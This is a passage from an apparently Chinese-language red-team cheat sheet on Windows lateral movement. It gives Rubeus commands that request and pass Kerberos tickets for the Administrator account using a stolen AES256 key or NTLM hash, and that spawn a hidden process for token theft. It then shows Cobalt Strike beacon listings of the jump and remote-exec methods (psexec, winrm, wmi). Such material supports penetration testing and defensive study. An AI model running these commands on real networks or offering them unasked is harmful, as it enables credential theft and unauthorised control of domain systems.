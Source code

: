 ```
.\Rubeus.exe asktgt /user:Administrator /aes256:[AES256KEY] /opsec /ptt
```

## Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
```
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /createnetonly:C:\Windows\System32\cmd.exe
```


# Cobalt Strike

## ```jump```命令

用法：```jump [method] [target] [listener]```

```
beacon> jump

Beacon Remote Exploits
======================

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```

## ```remote-exec```命令

用法：```remote-exec [method] [target] [command]```

```
beacon> remote-exec

Beacon Remote Execute Methods
=============================

    Methods                         Description
    -------                         -----------
    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI
```


## ```powershell```和```execute-assembly```等Cobalt Strike内置的命令
